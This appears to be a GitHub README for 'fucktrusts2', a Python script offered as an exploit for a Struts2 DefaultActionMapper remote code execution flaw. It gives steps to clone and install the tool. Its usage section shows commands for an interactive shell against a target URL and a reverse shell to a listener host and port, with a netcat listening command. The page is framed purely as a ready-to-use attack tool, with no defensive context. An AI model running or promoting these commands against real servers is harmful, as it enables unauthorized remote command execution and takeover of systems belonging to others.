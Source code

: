 <h1 align="center">
<br>☕ Ysokill ☕
</h1>

<!-- ABOUT THE PROJECT -->
## 📚 About The Project


   fucktrusts2 is a python script for exploit a Struts2 DefaultActionMapper RCE.
   
![image](https://user-images.githubusercontent.com/80011252/199061368-838631c2-0751-4433-9696-b0d6d6ce0166.png)

### 🛠️ Installation


1. Clone the repo
   ```sh
   git clone https://github.com/scarmandef/fucktrusts2.git
   ```
2. Install dependencies
   ```sh
   pip3 install -r requirements.txt
   ```
3. Run the script
   ```py
   python3 main.py
   ```

### 🖥️ Usage


1. Run the Script
   ```sh
   python3 main.py --help
    ```
3. Interactive Shell
   ```py
   python3 main.py -t https://www.target.com/index.action -c | --cmd
   ```
4. Reverse Shell
   ```py
   python3 main.py -t https://www.target.com/index.action --lhost 127.0.0.1 --port 443
   
   listen with nc
   
   nc -nlvp 443
   
   
   ```


